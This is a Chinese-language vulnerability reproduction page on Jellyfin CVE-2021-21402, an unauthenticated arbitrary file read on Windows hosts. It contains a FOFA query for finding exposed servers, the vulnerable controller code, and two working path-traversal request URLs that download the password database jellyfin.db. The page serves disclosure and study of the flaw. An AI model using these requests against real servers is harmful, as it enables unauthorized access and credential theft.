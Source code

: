 # Jellyfin stream.mp3 任意文件读取漏洞 CVE-2021-21402

## 漏洞描述

Jellyfin是一个免费软件媒体系统。在10.7.1版之前的Jellyfin中，带有某些终结点的精心设计的请求将允许从Jellyfin服务器的文件系统中读取任意文件。当Windows用作主机OS时，此问题更为普遍。暴露于公共Internet的服务器可能会受到威胁。在版本10.7.1中已修复此问题。解决方法是，用户可以通过在文件系统上实施严格的安全权限来限制某些访问，但是建议尽快进行更新。

## 漏洞影响

<a-checkbox checked>Jellyfin < 10.7.1</a-checkbox></br>

## FOFA

<a-checkbox checked>title='Jellyfin' || body='http://jellyfin.media'</a-checkbox></br>

## 漏洞复现

无论是`/Audio/{Id}/hls/{segmentId}/stream.mp3`和`/Audio/{Id}/hls/{segmentId}/stream.aac`路线允许任意文件在Windows上读取。可以`{segmentId}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。最初，攻击者似乎只能读取以`.mp3`和`.aac`结尾的文件。但是，通过在URL路径中使用斜杠

Path.GetExtension(Request.Path)`返回一个空扩展名，从而获得对结果文件路径的完全控制。的`itemId，因为它没有使用也没有关系。该问题不仅限于Jellyfin文件，因为它允许从文件系统读取任何文件。

```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] // [1]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.mp3", Name = "GetHlsAudioSegmentLegacyMp3")]
[HttpGet("Audio/{itemId}/hls/{segmentId}/stream.aac", Name = "GetHlsAudioSegmentLegacyAac")]
//...
public ActionResult GetHlsAudioSegmentLegacy([FromRoute, Required] string itemId, [FromRoute, Required] string segmentId)
{
    // TODO: Deprecate with new iOS app
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    file = Path.Combine(_serverConfigurationManager.GetTranscodePath(), file);

    return FileStreamResponseHelpers.GetStaticFileResult(file, MimeTypes.GetMimeType(file)!, false, HttpContext);
}
```



使用如下请求将会读取带有密码的数据库文件



```plain
http://xxx.xxx.xxx.xxx /Audio/anything/hls/..%5Cdata%5Cjellyfin.db/stream.mp3/
```



另一处代码如下



```java
// Can't require authentication just yet due to seeing some requests come from Chrome without full query string
// [Authenticated] //[1]
[HttpGet("Videos/{itemId}/hls/{playlistId}/{segmentId}.{segmentContainer}")]
//...
public ActionResult GetHlsVideoSegmentLegacy(
    [FromRoute, Required] string itemId,
    [FromRoute, Required] string playlistId,
    [FromRoute, Required] string segmentId,
    [FromRoute, Required] string segmentContainer)
{
    var file = segmentId + Path.GetExtension(Request.Path); //[2]
    var transcodeFolderPath = _serverConfigurationManager.GetTranscodePath();

    file = Path.Combine(transcodeFolderPath, file); //[3]

    var normalizedPlaylistId = playlistId;

    var filePaths = _fileSystem.GetFilePaths(transcodeFolderPath);
    // Add . to start of segment container for future use.
    segmentContainer = segmentContainer.Insert(0, ".");
    string? playlistPath = null;
    foreach (var path in filePaths)
    {
        var pathExtension = Path.GetExtension(path);
        if ((string.Equals(pathExtension, segmentContainer, StringComparison.OrdinalIgnoreCase)
                || string.Equals(pathExtension, ".m3u8", StringComparison.OrdinalIgnoreCase)) //[4]
            && path.IndexOf(normalizedPlaylistId, StringComparison.OrdinalIgnoreCase) != -1) //[5]
        {
            playlistPath = path;
            break;
        }
    }

    return playlistPath == null
        ? NotFound("Hls segment not found.")
        : GetFileResult(file, playlistPath);
}
```

该`/Videos/{Id}/hls/{PlaylistId}/{SegmentId}.{SegmentContainer}`路由允许在Windows上读取未经身份验证的任意文件。可以`{SegmentId}.{SegmentContainer}`使用Windows路径分隔符`\`（对`%5C`URL进行编码）将路由的一部分设置为相对或绝对路径。在`SegmentId`从和文件扩展名`Path`被级联。结果`file`用作`Path.Combine`[3]的第二个参数。但是，如果第二个参数是绝对路径，则第一个参数to将`Path.Combine`被忽略，而得到的路径仅是绝对路径`file`。

POC如下，下载同样的文件

```plain
http://xxx.xxx.xxx.xxx/Videos/anything/hls/m/..%5Cdata%5Cjellyfin.db
```

<a-alert type="success" message="如上为证明漏洞存在和可利用性，详情链接参考：https://securitylab.github.com/advisories/GHSL-2021-050-jellyfin/" description="" showIcon>
</a-alert>
<br/>


